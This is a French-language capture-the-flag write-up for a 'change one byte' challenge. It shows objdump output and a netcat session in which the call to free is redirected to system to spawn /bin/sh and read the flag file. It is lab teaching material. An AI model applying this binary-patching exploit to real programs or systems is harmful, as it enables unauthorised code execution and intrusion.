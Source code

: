 # WriteUp Kaname

Le but de ce chall est d'obtenir un shell en ne modifiant qu'un bit du programme.

Comme la solution joue sur des offsets, les scripts de solution peuvent changé pour chaque compilation

Pour résoudre ce challenge, il suffit de remplacer l'appel à free par un appel à system. Deplus, il est possible que certaine compilation ne permette pas d'éxecuter cette solution. Pour ma part, j'ai :

`
$ objdump -M intel -d changebyone
...
0000000000000730 <free@plt>:
 730:	ff 25 e2 08 20 00    	jmp    QWORD PTR [rip+0x2008e2]        # 201018 <free@GLIBC_2.2.5>
 736:	68 00 00 00 00       	push   0x0
 73b:	e9 e0 ff ff ff       	jmp    720 <.plt>
...
0000000000000750 <system@plt>:
 750:	ff 25 d2 08 20 00    	jmp    QWORD PTR [rip+0x2008d2]        # 201028 <system@GLIBC_2.2.5>
 756:	68 02 00 00 00       	push   0x2
 75b:	e9 c0 ff ff ff       	jmp    720 <.plt>
...
 9f4:	48 89 c7             	mov    rdi,rax
 9f7:	e8 34 fd ff ff       	call   730 <free@plt>
 9fc:	b8 00 00 00 00       	mov    eax,0x0
...
`

On a un écart de +0x20 entre les plt de free et system. Deplus, l'octet à modifier est à l'indice 0x9f8 du fichier.

Il faut donc rentrer :

`
$ nc 127.0.0.1 5796
Hi,

Before starting to exploit my unbreackable programm, I give you an opportunity.
You can change one byte of my binary.
Do you get this opportunity [Y/n] :
offset : 0x9f8
value : 0x54
Ok, Thank's.

Enjoy your chall !!!

 > /bin/sh # exit
ls
changebyone
changebyone.py
passwd
cat passwd
THC??{can_you_change_me}
`

